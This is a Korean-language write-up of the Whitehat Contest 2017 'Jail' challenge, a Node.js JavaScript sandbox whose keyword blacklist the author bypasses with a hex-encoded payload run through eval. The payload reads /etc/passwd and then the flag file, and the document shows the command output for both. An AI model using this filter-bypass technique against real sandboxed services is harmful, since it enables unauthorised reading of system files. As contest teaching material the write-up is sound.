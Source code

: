 # Whitehat Contest 2017 - [misc] Jail

### Description

> nc challenges.whitehatcontest.kr 5959

<br>

### Analysis

바로 nc로 붙어보니 `hint, quit` 문구를 쳐보라는 응답을 줬다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> 
```

<br>

hint를 입력해보니 다음과 같이 RegExp 정규 표현식 안에 문자열이 쭈르륵 나열되었다. 음?

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```

<br>

아무 문자열이나 입력해보았다.

리스트에 포함되지 않는 문자는 hm..이라는 응답이 오고

포함되는 문자는 nop 응답이 돌아오는 것으로 보아 필터링인 것을 알 수 있었다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> test
hm..

$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> os
nop
```

<br>

그러나 많은 필터링 리스트에 eval() 함수가 빠져있다.

eval() 함수 + 인코딩으로 필터링 우회가 가능할 것 같다.

<br>

### Exploit

[node.js][node.js] API 문서를 참고해보니 readFileSync() 함수를 사용하여 js 파일 시스템에 접근이 가능했다.

파일 시스템 접근을 위해 'fs' 모듈을 임포트 해줘야 하므로 with 함수와 require를 함께 사용한다.

> query:  with(require('fs')){readFileSync('/etc/passwd')}
>
> encoded:  \x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d")
your input root:x:0:0:root:/root:/bin/ash
.
.
.
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
jail:x:1001:1001:Linux User,,,:/home/jail:
```

<br>

눈에 익은 계정이 하나 보인다. 

계정 디렉터리 아래 플래그가 있는지 확인해보았다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

flag is

**easy~esay!easy?_Jav4-scr1pt~yay**



[node.js]: https://nodejs.org/api/fs.html